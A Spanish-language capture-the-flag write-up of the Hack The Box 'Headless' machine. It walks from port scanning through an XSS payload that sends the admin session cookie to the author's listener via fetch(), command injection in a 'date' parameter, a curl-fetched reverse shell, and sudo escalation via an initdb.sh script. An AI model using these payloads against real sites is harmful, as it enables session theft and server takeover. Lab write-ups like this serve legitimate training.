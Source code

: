 # HTB - HEADLESS

## Enumeración de puertos/servicios

``` bash 
sudo nmap -sCVT 10.10.11.8
```

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/cc1af630-4f2d-477d-b696-6a4e17f1ece6)

Podemos ver 2 puertos abiertos:
- 22 (SSH)
- 5000 (posiblemente una web)

Vamos a probar si funciona la ip con el puerto 5000.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/850f9ad0-3187-4e0d-a5cc-1eabf2706e0f)


realizar un fuzzing en busca de directorios:

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/d4766bf4-277e-4c2b-a129-c646d98be7d6)


## Detección de vulnerabilidades


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/241dc6dd-04dd-4d20-891a-94850e1c1e4e)


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/33cdc751-0bcf-4ee8-b42f-ab14de7a8d6c)



``` javascript
<script>alert(‘XSS’)</script>
```



Después de probar con algunos xss decido mirar que hay en el directorio dashboard.
Aquí me encuentro con que no tengo acceso a la pagina por las credenciales entonces pienso que podría tener algo que ver con las cookies y el user agent. 

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/2f294528-ef0f-4640-9183-55b033e60dd9)

Busco en el navegador como podría robar las cookies para poder entrar al dashboard mediante un xss.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/b67c57b8-9bb9-4491-9385-a25d1fafbc15)

Después de googlear un rato encuentro el siguiente xss:

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/f69baa5f-7213-4eb9-b143-225fbb06289b)

El problema es que no me servía ya que yo no tenia una web a la que me la redirigiese así que cree un python3 server para enviarme la cookie session ahí.


``` javascript
<img src=x onerror=fetch('http://10.10.14.168/?cpplie='+document.cookie);>
```

 Después de lanzar el python server lanzo el xss mediante burpsuite y lo envío

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/7e6235d8-677f-46ee-baee-f669a02da363)

Al enviarlo me devuelve en el server la cookie del admin, que es la siguiente:

cookie: "ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0"


Una vez se cambia la cookie a is_admin, ya nos dejara entrar a dashboard

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/9f4cb784-9d61-481b-928a-ddba6b524c6b)

Inspeccionando el dashboard me doy cuenta que en el burpsuite se envia un parametro llamado date.
En este parametro intento hacer un RCE inyectando lo siguiente:

date=2023-09-15; whoami

Despues de enviar la petición veo que no me da ningun tipo de error y me devuelve el nombre del user del server. 

Una vez veo que puedo hacer un RCE, intento hacer una reverse shell simple pero no me funciona asi que pruebo a crear un archivo llamado rev.sh en el cual escribo la reverse shell .

Intento hacer un curl  al python server para exportar el archivo y a su misma vez ejecuto un nc.


![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/b68edf39-9e86-499a-8c37-2eca9830b174)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/75378874-c1d1-4c2b-bbcd-beef2b1602d0)

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/73428c24-ed07-4899-bb0e-a78eb2c43f3b)

Y funciona, ya tenemos acceso a la maquina.

Una vez dentro me dirijo a la carpeta /home/dvir y hacemos un cat  al archivo user.txt

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/ad2d1ffb-445b-42df-a178-6521a399b907)

Para hacer la escalada de privilegios, ejecutaremos el comando sudo -l que nos devolverá lo siguiente.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/ef519537-4488-459c-ab50-e8887d954826)

Me llama la atención el párrafo del final. 
Decido hacerle un cat al archivo proporcionado (/usr/bin/syscheck) y nos devuelve un script en bash.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/1db49c30-e4b8-4324-a3a6-919e955efb91)

1. **Verificación de permisos de root**:
    
    - El script comienza verificando si se está ejecutando como el usuario root. Esto se hace comparando el ID de usuario efectivo (`$EUID`) con 0, que es el ID de usuario del root en la mayoría de los sistemas Unix. Si el ID de usuario efectivo no es 0, el script sale con un código de salida 1, lo que indica un error.
    
1. **Última modificación del kernel**
    
	- Utiliza el comando `find` para buscar archivos de kernel (`vmlinuz*`) en el directorio `/boot`.
    - Usa el comando `stat` para obtener la marca de tiempo de la última modificación de cada archivo de kernel encontrado.
    - Ordena estas marcas de tiempo de manera numérica (`sort -n`) y toma la última usando `tail`.
    - Utiliza `date` para formatear la marca de tiempo en un formato legible y la almacena en la variable `formatted_time`.
    - Imprime la fecha y hora de la última modificación del kernel.

1. **Espacio de disco disponible**:
    
    - Usa el comando `df` para mostrar el uso de espacio en disco del sistema de archivos donde está montado `/`.
    - El comando `awk` se utiliza para extraer la cantidad de espacio disponible.
    - Imprime la cantidad de espacio disponible.
    
4. **Carga promedio del sistema**:
    
    - Utiliza el comando `uptime` para obtener la carga promedio del sistema.
    - Utiliza `awk` para extraer la carga promedio del resultado.
    - Imprime la carga promedio del sistema.

5. **Verificación del servicio de base de datos**:
    
    - Utiliza `pgrep` para verificar si el proceso llamado "initdb.sh" está en ejecución.
    - Si no se encuentra el proceso (`pgrep` devuelve un código de salida diferente de 0), imprime un mensaje indicando que el servicio de base de datos no está en ejecución y lo inicia ejecutando el script `initdb.sh`.
    - Si el proceso se encuentra en ejecución, imprime un mensaje indicando que el servicio de base de datos está en ejecución.

Finalmente, el script sale con un código de salida 0, indicando que se ha ejecutado correctamente.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/2b547132-09ac-47f5-8799-bbdc674e991d)

Despues de ejecutar el script initdb.sh ya estamos en el user root asi que ya podemos acceder en el directorio root.

![image](https://github.com/0111100/HTB-HEADLESS/assets/96475451/ea9720f4-2e2c-44a7-857f-2fad1f1b0ab7)

